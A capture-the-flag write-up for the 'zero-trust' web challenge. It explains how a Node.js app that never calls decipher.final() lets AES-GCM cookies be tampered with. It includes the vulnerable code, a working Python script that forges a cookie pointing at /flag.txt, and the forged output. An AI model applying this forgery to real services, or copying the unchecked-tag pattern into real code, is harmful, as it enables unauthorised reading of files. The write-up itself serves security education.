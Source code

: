 # web/zero-trust (24 solves/488 points/first blood)

> I was researching zero trust proofs in cryptography and now I have zero trust in JWT libraries so I rolled my own! That's what zero trust means, right?
>
> Note: the flag is in `/flag.txt`

Provided: [`index.js`](index.js)

## Solution

At first glance, the file we're provided seems pretty solid in the cryptography department.
They're using AES-256-GCM, an authenticated encryption mode of AES, which is a Good Thing™ since it prevents tampering with a ciphertext.

...or, at least it would if the authentication function didn't look like this:

```javascript
function needsAuth(req, res, next) {
    const auth = req.cookies.auth;
    if (typeof auth !== "string") {
        makeAuth(req, res, next);
        return;
    }
    try {
        const [iv, authTag, ct] = auth.split(".").map((x) => Buffer.from(x, "base64"));
        const cipher = crypto.createDecipheriv("aes-256-gcm", key, iv);
        cipher.setAuthTag(authTag);
        res.locals.user = JSON.parse(cipher.update(ct).toString("utf8"));
        if (!fs.existsSync(res.locals.user.tmpfile)) {
            makeAuth(req, res, next);
            return;
        }
    } catch (err) {
        makeAuth(req, res, next);
        return;
    }
    next();
}
```

Spot the problem yet? No worries, I'll point it out to you :)

Let's consult the documentation for the [Node.js `crypto` module](https://nodejs.org/api/crypto.html), specifically the `decipher.setAuthTag()` function:

> `decipher.setAuthTag(buffer[, encoding])`
>
> When using an authenticated encryption mode (`GCM`, `CCM`, `OCB`, and `chacha20-poly1305` are currently supported), the `decipher.setAuthTag()` method is used to pass in the received authentication tag. **If no tag is provided, or if the cipher text has been tampered with, `decipher.final()` will throw,** indicating that the cipher text should be discarded due to failed authentication. [emphasis mine]

We can see above that the `setAuthTag()` function is called before decrypting the data, but the `decipher.final()` function is never called.
This allows attackers (including us :)) to tamper with the ciphertext, negating basically any benefits an authenticated encryption mode may bring.

How is this useful though?
Well for starters, GCM stands for Galois Counter Mode.
It's based on the similar sounding Counter (CTR) mode, which essentially transforms AES into a stream cipher.
Instead of directly encrypting the plaintext with AES and xoring blocks with stuff for example (looking at you CBC), a stream cipher generates a key stream that is xored with the plaintext to create the ciphertext.
Let's see what that looks like for GCM, since that's what we're dealing with in this case.

<div align="center">
    <img src="img/gcm-diagram.png" alt="diagram displaying how GCM works by xoring the keystream with plaintext">
    <p style="text-align: center;">Courtesy of <a href="https://commons.wikimedia.org/wiki/File:GCM-Galois_Counter_Mode_with_IV.svg">Wikimedia Commons</a>.
    Note that we can ignore the bottom part since the authentication tag isn't actually checked :)</p>
</div>

Yep, definitely a stream cipher :)
Normally this wouldn't be useful information because xoring is really hard to invert, but this isn't normal crypto.
Based on the `makeAuth` function, we actually know part of the plaintext that's encrypted with AES-256-GCM:

```javascript
function makeAuth(req, res, next) {
    const iv = crypto.randomBytes(16);
    // begin relevant section
    const tmpfile = "/tmp/pastestore/" + crypto.randomBytes(16).toString("hex");
    fs.writeFileSync(tmpfile, "there's no paste data yet!", "utf8");
    const user = { tmpfile };
    const data = JSON.stringify(user);
    // end relevant section
    const cipher = crypto.createCipheriv("aes-256-gcm", key, iv);
    const ct = Buffer.concat([cipher.update(data), cipher.final()]);
    const authTag = cipher.getAuthTag();
    res.cookie("auth", [iv, authTag, ct].map((x) => x.toString("base64")).join("."));
    res.locals.user = user;
    next();
}
```

The data that's being encrypted is just a JSON-serialized object with a single key (`tmpfile`) and value (the partially random path of the paste).
Let's check what the actual output of `JSON.stringify` looks like:

```javascript
>> console.log(JSON.stringify({"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}))
{"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}
```

Looks like there's no whitespace, so that's one less thing to deal with.
While we don't know the random path (it is random after all), luckily for us we don't need to since replacing the path with `/flag.txt` only reaches up to `pastestore`:

```javascript
{"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}
{"tmpfile":"/flag.txt"} // so short!
```

With that in mind, we can then modify our auth cookie to instead point to `/flag.txt`!
All we need to do is xor the ciphertext (i.e. the third component) with `{"tmpfile":"/tmp/pastestore"` to recover the portion of the keystream we need, and then xor *that* with `{"tmpfile":"/flag.txt"}` to get a valid cookie pointing to the flag file.
Because GCM turns AES into a stream cipher, we don't have to worry about padding or anything; we can just truncate off the rest of the original ciphertext since we don't need it (or know it haha).

I wrote up [a quick Python script](forge.py) to automate the cookie tampering process:

```python
from base64 import b64decode, b64encode
from urllib.parse import unquote_plus, quote_plus

def xor(a, b):
    return bytes(aa ^ bb for aa, bb in zip(a, b))

auth = "mQQGDoGKo3Y0nVA2Uyz3ug%3D%3D.7PUFAYWIcbbZ2hnVSMpDAw%3D%3D.tBQr%2FSqwhT1hg%2BDzri2airPQuSmlA68ow61lwVa1blHkMWsMJUqxzogUdvJbjioXfYZJ2HBU5k%2BU4vju%2Bn8%3D"

if __name__ == "__main__":
    iv, tag, ct = auth.split(".")
    ct = b64decode(unquote_plus(ct))
    new_ct = xor(b'{"tmpfile":"/flag.txt"}', xor(b'{"tmpfile":"/tmp/pastestore/', ct))
    new_ct = quote_plus(b64encode(new_ct))

    print(f"new cookie: {iv}.{tag}.{new_ct}")
```

Running it gives you the forged cookie:

```shell
$ python forge.py
new cookie: mQQGDoGKo3Y0nVA2Uyz3ug%3D%3D.7PUFAYWIcbbZ2hnVSMpDAw%3D%3D.tBQr%2FSqwhT1hg%2BDzrj%2Bbm%2FuOrCKlRKE%3D
```

Swapping out your current authentication cookie with that one and reloading then displays the flag in the text box:

<div align="center">
<img src="img/flag-paste.png" alt="Flag present in paste text box after swapping out cookie">
</div>

And there it is! `lactf{m4yb3_st1ck_t0_l1br4r1es_wr1tt3n_by_comp3t3nt_p3opl3}`.
Can't help but agree with that advice if you're going to misuse a crypto library because you don't trust other peoples' tested-secure libraries.
[JWT is okay to hate on though ;)](https://www.howmanydayssinceajwtalgnonevuln.com/)